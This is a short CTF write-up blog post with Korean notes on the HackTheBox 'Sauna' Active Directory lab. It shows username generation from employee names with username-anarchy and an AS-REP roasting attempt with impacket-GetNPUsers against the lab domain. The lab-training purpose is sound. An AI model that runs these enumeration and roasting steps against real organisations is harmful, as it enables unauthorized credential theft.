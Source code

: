 ```yaml
---
layout: post
title: HackTheBox Sauna
subtitle: Acitive Directory 101 Sauna Exam WriteUp
author: g3rm
categories: CTF
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - OSCP
  - AD
  - WriteUp
sidebar:
---
```

## Summary
![](/assets/images/posts/2025-03-03-Sauna/2bdc0adf35cd7ad873b24031aca76c17_MD5.jpeg)

## Target - 10.129.246.172
### Info Gathering
#### open port   
![](/assets/images/posts/2025-03-03-Sauna/43e51fa648198ff08b7fb527b4792e9e_MD5.jpeg)

#### kerberos roasting
1. http에서 직원들 이름 얻어서 Window에서 계정으로 사용할 만한 username 뽑기
![](/assets/images/posts/2025-03-03-Sauna/daf33dc2142cef7bfb6f4a86808126de_MD5.jpeg)
``` bash
./username-anarchy-0.6/username-anarchy --input-file users --select-format first,flast,first.last,firstl > username
fergus
fergussmith
fergus.smith
fergussm
fergsmit
ferguss
f.smith
fsmith
sfergus
s.fergus
smithf
smith
smith.f
smith.fergus
fs
~~~
```   
2. 얻은 username으로 roasting 시도
```bash
impacket-GetNPUsers EGOTISTICAL-BANK.LOCAL/ -usersfile username -no-pass
```


## References